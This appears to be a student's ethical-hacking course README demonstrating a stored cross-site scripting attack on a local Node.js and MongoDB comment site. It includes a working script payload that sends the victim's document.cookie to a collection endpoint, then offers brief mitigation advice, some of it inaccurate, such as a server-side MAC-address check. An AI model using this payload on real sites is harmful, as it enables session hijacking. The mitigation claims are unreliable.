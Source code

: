 # Script Injection and stealing Client Cookie
Ethical Hacking course project by @Sajjad-Hasan01, Dec-2023

## Introduction
These days, there are many ways to steal clients' information, one of them is _Cross-Site-Scripting (XSS)_ with _Database Inject_. In this project, I will present the easiest way to pass a script command and the basics to avoid these issues.

## Problem Statement
When a hacker can write any command in a regular input field and pass it as well, this is a very big issue, because the hacker can exploit this vulnerability in malicious ways. One of the malicious scenarios, inject a script that takes Cookies of the client from the browser window and sends them to his database.

The Cookies may contain _AccessToken_ of the client’s session, and this will take the hacker to open a client’s account. I will discuss the solution to this problem later.

This is a general problem. In this project, I implement the problem practically by using _Node.js_ as JavaScript runtime environment, _MongoDB_ as database, and _Postman_ as api for sending and receiving HTTP-Requests, all services are locally. Will see it in the next paragraph.

## Problem Test
Firstly, let’s signup and login to the local test website:
![1](https://github.com/Sajjad-Hasan01/eHack-XSS/blob/main/screenshots/1.jpg)
![2](https://github.com/Sajjad-Hasan01/eHack-XSS/blob/main/screenshots/2.jpg)
![3](https://github.com/Sajjad-Hasan01/eHack-XSS/blob/main/screenshots/3.jpg)
![4](https://github.com/Sajjad-Hasan01/eHack-XSS/blob/main/screenshots/4.jpg)

Now, I’ll try to exploit the Add Comment field to pass an injection:
![5](https://github.com/Sajjad-Hasan01/eHack-XSS/blob/main/screenshots/5.jpg)
![6](https://github.com/Sajjad-Hasan01/eHack-XSS/blob/main/screenshots/6.jpg)
![7](https://github.com/Sajjad-Hasan01/eHack-XSS/blob/main/screenshots/7.jpg)
![8](https://github.com/Sajjad-Hasan01/eHack-XSS/blob/main/screenshots/8.jpg)

As you can see in second and fourth images, the script works well and the browser shows the alerts.

If the client side catches the script and converts it to normal string or rejects it, there is another way to pass throw directly to API by using _Postman_. Now, I should get the Add-Comment API link:

From browser developer tools, I tried to get the request link from Network tap, but after every button click the page refresh itself.
![9](https://github.com/Sajjad-Hasan01/eHack-XSS/blob/main/screenshots/9.jpg)
![10](https://github.com/Sajjad-Hasan01/eHack-XSS/blob/main/screenshots/10.jpg)
![11](https://github.com/Sajjad-Hasan01/eHack-XSS/blob/main/screenshots/11.jpg)
The Add-Comment API link is `http://localhost:3000/api/addcomment` , and body of request is `comment`

In Postman, I sent a body contains a script that take Cookies from client’s browser window and sent it to a database collection: 
```javascript
<script>
    (() => {
        fetch('http://localhost:3000/api/xss',{
            method:'POST',
            headers: {
                "Content-Type": "application/json",
            },
            body: JSON.stringify({
                token: document.cookie
            })
        })
    })()
</script>
```

![12](https://github.com/Sajjad-Hasan01/eHack-XSS/blob/main/screenshots/13.jpg)
The response status was OK, and after refreshing the Home page, it displayed another empty comment which was my _Send-Cookie-Script_. Finally, I got the _Cookie_ that contains _AccessToken_ in my _Tokens_ collection of _eHackXss_ database:

![13](https://github.com/Sajjad-Hasan01/eHack-XSS/blob/main/screenshots/14.jpg)

## Problem Solution
To avoid NoSQL Injection, we have to use `mongoose` Node Package Modal (NPM) rather than `mongodb` and `Express-Mongo-Sanitize`, and `helmet` for secure HTTP Header, `XSS-Clean` for data sanitization against site script, `Yup` for input validation in the server. And the earliest versions of browsers have good ways to avoid scripts, now, it’s difficult to operate any script on a browser window.

Later, I will upgrade the project with implementation of an unusable _AccessToken_ which contains AccountID and MAC Address of the user's device. So, when the attacker gets the AccessToken and tries to use it, the server will receive the MAC Address of the attacker and extract the MAC Address of the legal user from _AccessToken_ then compare between them.
